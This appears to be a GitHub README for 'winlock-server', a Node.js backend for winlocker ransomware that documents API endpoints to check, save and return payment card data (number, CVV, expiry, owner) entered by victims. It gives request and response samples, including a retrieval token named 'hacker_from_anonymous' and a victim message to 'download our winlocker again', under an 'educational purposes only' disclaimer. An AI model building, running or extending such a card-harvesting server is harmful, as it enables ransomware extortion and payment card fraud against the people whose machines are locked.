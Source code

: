 <br>
<h1 align="center">winlock-server</h1>
<div align="center">
  
<br>

[![Badge](https://img.shields.io/badge/Uses-Node.js-green.svg?style=flat-square)](1)
[![Badge](https://img.shields.io/badge/Open-Source-important.svg?style=flat-square)](1)
[![Badge](https://img.shields.io/badge/Made_with-Love-ff69b4.svg?style=flat-square)](1)
    
<br>

</div>

## Installation:
-   Install [Node.js](https://nodejs.org/en/),
-   Clone this repo: `git clone https://github.com/Ythosa/whynote`,
-   Install dependences by writing in console: `npm install`,
-   Write in console: `npm start`.

<br>

## Description:
-    Opensource Server on `Node.js` for Winlock Development Practice;
-    Designed for educational purposes only, the author is not responsible for how you use it;
-    The `winlock-server` can:
     *  check the card data entered by the user;
     *  save card data entered by the user;    
     *  return card data entered by the user.

<br>

## Documentation: 

### Http request to check the map and save it to the database:

~-~ Request sample:

``` javascript
var raw = JSON.stringify({
  "digits":"4111111111111111",
  "cvv":"111",
  "date":"M/YY",
  "owner":"Sername Name"
});

var requestOptions = {
  method: 'POST',
  headers: myHeaders,
  body: raw,
  redirect: 'follow'
};

fetch("http://localhost:3000/card", requestOptions)
  .then(response => response.text())
  .then(result => console.log(result))
  .catch(error => console.log('error', error));
  
  ```
  
~-~ Response sample: 

```json
{
    "ok": true,
    "message": "Successful! Download our winlocker again!"
}
```

### Http request to get cards from BD:

~-~ Request sample:

```javascript 
var raw = JSON.stringify({"token":"hacker_from_anonymous"});

var requestOptions = {
  method: 'POST',
  headers: myHeaders,
  body: raw,
  redirect: 'follow'
};

fetch("http://localhost:3000/get_cards", requestOptions)
  .then(response => response.text())
  .then(result => console.log(result))
  .catch(error => console.log('error', error));
```

~-~ Response sample:

```json
[
    {
        "digits": "4111111111111111",
        "cvv": "111",
        "date": "M/YY",
        "owner": "SERNAME NAME",
        "card_details_error": null
    }
]
```

### Http request to get server information:

~-~ Request sample:

```javascript
var requestOptions = {
  method: 'GET',
  redirect: 'follow'
};

fetch("http://localhost:3000/", requestOptions)
  .then(response => response.text())
  .then(result => console.log(result))
  .catch(error => console.log('error', error));
```

~-~ Response sample:

```html
<!DOCTYPE html>
<html>

	<head>
		<title>Winlock API Say BB ur PC bruh xd</title>
		<link rel="stylesheet" href="/stylesheets/style.css">
	</head>

	<body>
		<h1>Winlock API Say BB ur PC bruh xd</h1>
		<p>Welcome to Winlock API Say BB ur PC bruh xd</p>
	</body>

</html>
```
